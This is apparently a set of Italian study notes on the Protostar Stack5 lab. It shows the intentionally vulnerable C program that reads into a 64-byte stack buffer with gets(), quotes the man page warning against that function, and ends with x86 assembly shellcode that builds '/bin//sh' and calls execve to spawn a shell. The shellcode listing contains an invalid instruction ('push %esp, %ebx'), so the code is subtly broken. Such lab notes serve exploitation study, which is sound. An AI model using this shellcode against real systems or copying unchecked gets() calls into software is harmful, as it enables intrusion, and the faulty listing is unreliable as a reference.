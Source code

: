 - Qui ci sarebbero altri esercizi prima che non ho inserito per motivi di voglia e semplicità come quelli sulle sql inj
## Protostar - Stack05
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
- Viene allocato un buffer di 64 caratteri sullo stack
- Si riempie il buffer con dati letti da terminale
	- input non controllato
- **gets()**
	- gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with \0. **No check for buffer overrun is performed** (see BUGS below).
	- BUGS **Never use gets()**. Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer. It is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.

## Memory Layout
- TODO: aggiungere tutta la parte sul memory layout
## Shellcode
- "/bin/sh": devo codificare in memoria questa stringa
	- ricordiamoci che siamo in un contesto little endian
	- "//sh": codifico prima questi 4 byte
		- 0x68732F2F
	- "/bin"
		- 0x6E69622F
- shellcode:
```s
	shellcode:
		xor %eax, %eax //xorando due valori uguali ottengo 0
		push %eax //metto eax sullo stack
		push $0x68732F2F // //sh
		push $0x6E69622F
		push %esp, %ebx
		mov %eax, %ecx
		mov %eax, %edx
		mov $0xb, %al
		int $0x80
		xor %eax, %eax
		inc %eax
		int $0x80
```
